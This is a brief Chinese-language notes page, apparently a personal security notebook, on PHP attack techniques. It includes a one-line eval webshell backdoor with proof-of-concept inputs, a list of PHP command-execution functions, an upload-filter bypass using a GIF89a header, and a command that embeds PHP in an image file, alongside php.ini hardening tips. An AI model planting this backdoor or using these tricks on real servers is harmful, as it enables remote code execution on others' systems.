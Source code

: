```yaml
---
title: "php"
date: 2016-01-25 14:15
---
```


## 一句话后门

```php
$cmd = $_POST['cmd'];                                                      
eval("$cmd;");

poc:
? cmd=echo phpinfo()  
? cmd=echo exec("ls -l")
```

## 执行系统命令（命令注入攻击）



* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec() 

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号)

```
echo `ls -l`;
```



** for security**

* php.ini

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系
    
## upload

** bypass **

* 文件头+GIF89a

## file inclusion

require找不到被包含的文件时会产生致命错误，并停止脚本运行。

include找不到被包含的文件时只会产生警告，脚本将继续运行。

include_once与include类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含。

require_once与require类似，唯一区别是如果该文件中的代码已经被包含，则不会再次包含


## dangerous functions

* file_get_contents()

> string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )

支持本地文件，HTTP，FTP

禁用file_get_contents,修改php.ini

```
allow_url_fopen=Off
```

* curl

支持 FTP(S),HTTP(S),TELNET,FILE,DICT,LDAP,GOPHER

install: sudo apt-get install php5-curl. then restart apache

## 备注

* 注入php 到图片等

```
echo '<?php phpinfo();?>' >> 1.jpg
```

文件名后缀改为**.php**，就会用php方式解析，执行phpinfo().
